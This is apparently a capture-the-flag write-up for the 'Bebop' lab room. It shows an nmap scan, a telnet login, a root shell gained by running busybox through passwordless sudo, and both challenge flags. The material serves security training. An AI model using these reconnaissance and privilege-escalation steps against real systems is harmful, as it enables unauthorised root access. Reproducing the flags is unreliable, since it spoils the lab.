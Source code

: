 > Bebop

# Nmap

nmap -sC -sV -T4 -Pn -vv -A -oN nmap/initial $IP

```
22/tcp   open     ssh            syn-ack     OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
23/tcp   open     telnet         syn-ack     BSD-derived telnetd
```

Looks like telnet is open and we are given our username `pilot`.

telnet $IP

# user.txt 

```
THM{r3m0v3_b3f0r3_fl16h7}
```

# Privilege Escalation

sudo -l

```
User pilot may run the following commands on freebsd:
    (root) NOPASSWD: /usr/local/bin/busybox
```

And looking at GTFO bins we got a hit. `sudo busybox sh`. Wow! we are root!

# root.txt

```
THM{h16hw4y_70_7h3_d4n63r_z0n3}
```